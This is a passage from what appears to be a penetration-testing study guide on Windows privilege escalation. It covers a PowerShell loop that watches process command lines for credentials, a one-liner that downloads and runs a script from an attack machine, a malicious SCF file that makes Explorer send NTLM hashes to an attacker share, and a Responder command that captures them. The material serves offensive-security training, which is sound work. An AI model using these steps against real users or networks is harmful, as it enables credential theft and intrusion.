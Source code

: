 ## Interacting with Users

### Monitoring for Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```shell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

We can host the script on our attack machine and execute it on the target host as follows.

```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

### Malicious SCF File

Create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.

```shell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Next, start Responder on our attack box and wait for the user to browse the share. If all goes to plan, we will see the user's NTLMV2 password hash in our console and attempt to crack it offline.

```bash
sudo responder -I tun0
```

## Notable Vulnerabilities

### Enumerating Missing Patches

